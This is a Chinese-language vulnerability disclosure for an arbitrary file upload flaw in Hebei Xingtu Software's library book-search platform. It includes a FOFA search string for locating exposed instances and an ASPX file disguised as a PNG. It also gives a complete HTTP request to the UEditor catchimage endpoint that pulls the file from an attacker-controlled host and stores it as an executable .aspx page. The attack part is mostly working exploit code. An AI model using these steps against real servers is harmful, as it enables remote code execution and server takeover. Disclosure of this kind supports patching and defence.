

# 一、漏洞简介
河北兴图软件科技有限公司基于互联网+图书馆全新的理念自主研发了一系列网页版图书馆集群管理系统，正式推出基础版、标准版、增强版和专业版等版本，适合各类型图书馆需求。图书检索平台存在任意文件上传漏洞，攻击者可通过该漏洞获取服务器权限。

# 二、影响版本
+ 图书检索平台

# 三、资产测绘
+ fofa`body="Images/public/yes.png"`
+ 特征



# 四、漏洞复现
1. 新建文件1.png

```java
<%@ Page Language="C#"%>
<%
Response.Write(FormsAuthentication.HashPasswordForStoringInConfigFile("123456", "MD5"));
System.IO.File.Delete(Request.PhysicalPath);
%>
```

2. 上传文件

```java
POST /Scripts/ueditor/net/controller.ashx?action=catchimage HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:126.0) Gecko/20100101 Firefox/126.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 17

source[]=http://ip:7777/1.png?.aspx
```


```java
/upload/Images/0205820a-35b0-4021-ab5d-ecbeca74331e.aspx
```


